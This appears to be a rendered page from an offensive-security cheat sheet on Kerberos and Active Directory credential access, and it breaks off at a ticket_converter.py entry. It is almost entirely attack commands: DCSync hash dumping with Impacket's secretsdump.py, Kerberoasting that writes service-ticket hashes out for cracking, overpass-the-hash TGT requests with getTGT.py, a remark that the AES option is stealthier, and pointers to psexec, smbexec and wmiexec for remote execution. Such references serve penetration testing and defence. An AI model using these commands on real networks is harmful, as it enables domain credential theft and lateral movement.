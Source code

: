 ## dcsync
- `/usr/share/doc/python3-impacket/examples/secretsdump.py username@target-ip -dc-ip target-ip`

---

# invoke-kerberoast.ps1
- service: kerberos
- tactics: credential_access
- suites: powershell_empire

## execute invoke-kerberoast.ps1
- `invoke-kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>`

---

# gettgt.py
- service: kerberos
- tactics: credential_access
- suites: impacket

## overpass the hash

## Request the TGT with hash
- `python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>`

## Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>`

## Request the TGT with password
- `python getTGT.py <domain_name>/<user_name>:[password]`

## Set the TGT for impacket use
- `export KRB5CCNAME=<TGT_ccache_file>`

### Execute remote commands with any of the following tools by using the TGT
> search for psexec.py, smbexec.py or wmiexec.py

---

# ticket_converter.py
- service: kerberos
- tactics: credential_access
